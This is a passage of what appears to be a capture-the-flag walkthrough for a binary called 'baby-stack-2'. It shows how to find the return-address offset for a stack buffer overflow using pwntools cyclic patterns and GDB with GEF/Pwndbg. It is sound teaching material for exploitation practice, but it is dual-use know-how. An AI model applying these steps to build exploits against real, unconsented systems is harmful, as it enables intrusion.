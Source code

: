 ### Step 2: Finding the Offset to the Return Address

We need to find out exactly how many bytes of input it takes to overwrite the return address on the stack. We can do this with GDB and a cyclic pattern.

1.  **Generate a cyclic pattern**:
    You can use `pwntools` for this:

    ```python
    from pwn import *
    print(cyclic(200)) # Generate a 200-byte unique pattern
    ```

    Or within GDB with GEF/Pwndbg:

    ```gdb
    gef> pattern create 200
    ```

    Copy the generated pattern.

2.  **Run the binary in GDB**:

    ```bash
    gdb ./baby-stack-2
    ```

3.  **Run with the pattern**:
    Inside GDB:

    ```gdb
    r
    ```

    When prompted for "Username:", paste the cyclic pattern you generated and press Enter.

4.  **Identify the crash and offset**:
    The program should crash with a segmentation fault. The value in the instruction pointer register (RIP for x64, EIP for x86) will be part of your cyclic pattern.
    In GDB (after the crash):
    ```gdb
    info registers rip # For x64
    # or info registers eip # For x86
    ```
    Note down the value (e.g., `0x6161616a`).
    Then find the offset:
    Using `pwntools`:
    ```python
    from pwn import *
    print(cyclic_find(0x6161616a)) # Replace with the value you found in RIP/EIP
    ```
    Or within GDB with GEF/Pwndbg:
    ```gdb
    gef> pattern offset $rip
    # or pattern search $rip
    ```
    This will give you the offset. Please provide this offset.
